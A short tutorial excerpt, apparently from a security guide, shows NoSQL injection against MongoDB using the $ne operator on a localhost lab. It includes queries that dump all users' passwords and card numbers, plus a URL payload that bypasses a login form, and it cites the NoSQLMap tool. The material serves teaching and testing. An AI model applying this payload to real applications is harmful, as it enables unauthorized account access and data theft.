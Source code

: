 ----
##Attacking Applications##

```
> db.users.find({"username":"jim", "password": {$ne: "0x00"}})
{ "_id" : ObjectId("55d5d719d60515e316247247"), "username" : "jim", "password" : "jim", "email" : "jim@gmail.com", "cardnumber" : 54321 }
```

If you notice, the above MongoDB command is fetching all the documents where the username is "jim" and password not equals to "0x00".

```
> db.users.find({"username": {$ne: "0x00"}, "password": {$ne: "0x00"}})
{ "_id" : ObjectId("55d5d6f2d60515e316247246"), "username" : "tom", "password" : "tom", "email" : "tom@gmail.com", "cardnumber" : 12345 }
{ "_id" : ObjectId("55d5d719d60515e316247247"), "username" : "jim", "password" : "jim", "email" : "jim@gmail.com", "cardnumber" : 54321 }
{ "_id" : ObjectId("55d5d739d60515e316247248"), "username" : "bob", "password" : "bob", "email" : "bob@gmail.com", "cardnumber" : 22222 }
```

This time, we are able to see all the documents that do not meet the condition username and password as "jim".

```
http://localhost/index.php?username[$ne]=test&password[$ne]=test
```


----
##Automated Assessments##

We are going to use a very nice tool called NoSQLMap for this part.

http://github.com/tcstool/nosqlmap


